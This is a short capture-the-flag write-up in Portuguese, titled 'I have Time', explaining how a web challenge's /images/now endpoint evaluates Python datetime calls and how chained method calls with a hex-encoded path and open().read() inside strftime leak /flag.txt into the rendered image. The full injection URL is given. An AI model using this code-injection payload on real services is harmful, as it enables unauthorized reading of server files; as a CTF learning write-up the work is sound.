 I have Time
===========

Olhando o site em http://178.63.58.69:8081/ foi notado a seguinte URI `/images/now`,
a qual gera uma imagem mostrando o tempo atual. Modificando 'now' para 'today' podemos
perceber que continua exibindo uma data, o que levou a pensar que o 'now' seria o método
chamado do objeto 'datetime' do Python, ficando `datetime.datetime.now()`.

A partir dai a ideia é ler o arquivo `/flag.txt`, que é mencionado na descrição da task,
através de possivel chamada de método encadeada.

Testando varias coisas foi possível perceber que ao testar:
```
/images/now().strftime("/flag.txt").strip
```

().flag.txt era exibida na imagem, o que exigiu procurar uma outra forma de passar tal
string na url, o que pode ser feito de N formas, passando em hex seria uma delas.

```
$ python -c "print '/flag.txt'.encode('hex')"
2f666c61672e747874
```

Feito isso, basta agora executar um `open().read()`, mostrando o conteúdo do arquivo na imagem.

```
http://178.63.58.69:8081/images/now().strftime(open('2f666c61672e747874'.decode('hex')).read()).strip
```

PS: Créditos para **danilonc** por identificar o objeto datetime e o uso de strftime para ajudar a exibir informação na imagem.
